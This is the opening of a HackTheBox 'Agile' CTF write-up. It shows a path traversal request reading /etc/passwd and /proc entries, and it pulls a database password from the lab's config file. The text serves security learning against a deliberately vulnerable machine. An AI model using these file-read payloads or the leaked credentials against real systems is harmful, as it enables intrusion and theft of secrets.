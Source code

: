 ```yaml
---
layout: post
title:  "Writeup of Agile (HackTheBox)"
date:   2023-11-18 18:06:00 +0000
categories: hackthebox
author: brun0ne
tags: htb hackthebox agile LFI Werkzeug
---
```


# Discovery

10.10.11.203 -> superpass.htb

# LFI

`GET /download?fn=../../etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
corum:x:1000:1000:corum:/home/corum:/bin/bash
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
...
```

`/proc/self/cmdline`

```
/app/venv/bin/python3 /app/venv/bin/gunicorn --bind 127.0.0.1:5000 --threads=10 --timeout 600 wsgi:app
```

`/proc/self/environ`

```
LANG=C.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
HOME=/var/www
LOGNAME=www-data
USER=www-data
INVOCATION_ID=57e96e6410ab4761aeb4ddd1bc9a4b82
JOURNAL_STREAM=8:32954
SYSTEMD_EXEC_PID=1099
CONFIG_PATH=/app/config_prod.json
```

`/app/config_prod.json`

```json
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```
